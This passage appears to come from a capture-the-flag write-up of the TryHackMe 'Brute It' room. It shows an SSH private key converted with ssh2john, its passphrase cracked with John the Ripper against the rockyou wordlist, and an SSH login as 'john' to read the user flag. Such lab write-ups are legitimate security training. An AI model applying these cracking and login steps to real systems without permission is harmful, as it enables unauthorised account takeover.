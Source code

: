 ![Pasted image 20250724175605.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250724175605.png)

So the password is `xavier` :

![Pasted image 20250724175703.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250724175703.png)

### Ssh2john

We copy the key and use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) to make it john readable and crack it :

```bash
──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ ssh2john key > pass.hash 
```

### John the Ripper

Now we can use [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) to find the password :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (key)     
1g 0:00:00:00 DONE (2025-07-24 17:59) 50.00g/s 3633Kp/s 3633Kc/s 3633KC/s saloni..punyaku
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## First Access SSH (22)

We can make the key executable and use it on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) (username `john` it's in the [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md)) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ ssh -i key  john@brute.thm
Enter passphrase for key 'key': 

john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```
